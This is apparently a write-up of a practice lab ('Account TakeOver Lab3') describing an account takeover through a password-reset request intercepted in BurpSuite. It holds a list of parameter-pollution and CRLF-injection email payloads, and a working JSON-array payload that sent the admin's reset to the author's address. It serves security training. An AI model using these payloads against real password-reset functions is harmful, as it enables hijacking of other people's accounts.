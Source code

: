 ```yaml
---
title: "Account TakeOver Lab3"
tags:
    - Lab
    - Bepractical
date: "2024-06-20"
thumbnail: "/assets/img/thumbnail/labs.png"
bookmark: true
---
```

## Description

As usual, try logging in with `admin@bepractical.tech`.

Starting from the login page, we can sign in as in Lab 2, so I created a new account. Then, I played around with BurpSuite, trying various ideas learned from Lab 1 and Lab 2, but with no success. Let's go directly to the reset password function.

## Reset Password

<img src="/assets/img/bepractical/lab3/1.png" alt="reset password">

Turn on interception and click `send` to see the request.

<img src="/assets/img/bepractical/lab3/2.png" alt="request">

Notice the format used is JSON , while hunting take these notes 

```bash
when reset password 
GET /passwordreset
#Double parameter
- email=victim@xyz.tld&email=hacker@xyz.tld
- email=victim@xyz.tld,email=hacker@xyz.tld
- email=victim@xyz.tld&bcc:hacker@xyz.tld
- email=victim@xyz.tld%0a%0dcc:=hacker@xyz.tld
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}
```
The last one worked for me by entering both emails like this.
```bash
{
    "email":["admin@practical.tech",
          "730bbbfd32@emailcbox.pro" ]
}

```
<img src="/assets/img/bepractical/lab3/4.png" alt="request2">

press forward to see the response. it's a 200 ok 

<img src="/assets/img/bepractical/lab3/5.png" alt="request3">

now go to firefox 

<img src="/assets/img/bepractical/lab3/6.png" alt="admin">

Admin account .... Hacked gg
